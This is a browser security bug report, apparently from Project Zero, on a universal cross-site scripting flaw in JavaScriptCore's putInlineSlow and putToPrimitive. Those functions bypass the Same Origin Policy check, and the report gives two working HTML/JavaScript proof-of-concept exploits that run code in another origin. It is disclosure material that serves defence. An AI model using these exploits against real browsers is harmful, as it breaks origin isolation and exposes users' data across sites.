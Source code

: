 # JSC: UXSS via JSObject::putInlineSlow and JSValue::putToPrimitive

### Reported by <mailto:lokihardt@google.com>, Apr 21 2017

`JSObject::putInlineSlow` and `JSValue::putToPrimitive` use `getPrototypeDirect` instead of `getPrototype` to get an object's prototype. So `JSDOMWindow::getPrototype` which checks the Same Origin Policy is not called.

The PoC shows to call a setter of another origin's object.

PoC 1 - `JSValue::putToPrimitive`:

```html
<body>
<script>

let f = document.body.appendChild(document.createElement('iframe'));
let loc = f.contentWindow.location;
f.onload = () => {
    let a = 1.2;
    a.__proto__.__proto__ = f.contentWindow;

    a['test'] = {toString: function () {
        arguments.callee.caller.constructor('alert(location)')();
    }};
};
f.src = 'data:text/html,' + `<iframe></iframe><script>
Object.prototype.__defineSetter__('test', v => {
    'a' + v;
});

</scrip` + `t>`;

</script>
</body>
```

PoC 2 - `JSObject::putInlineSlow` :

```html
<body>
<script>

let f = document.body.appendChild(document.createElement('iframe'));
let loc = f.contentWindow.location;
f.onload = () => {
    let a = {
        __proto__: f.contentWindow
    };

    a['test'] = {toString: function () {
        arguments.callee.caller.constructor('alert(location)')();
    }};
};
f.src = 'data:text/html,' + `<iframe></iframe><script>
Object.prototype.__defineSetter__('test', v => {
    'a' + v;
});

</scrip` + `t>`;
</script>
</body>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1240
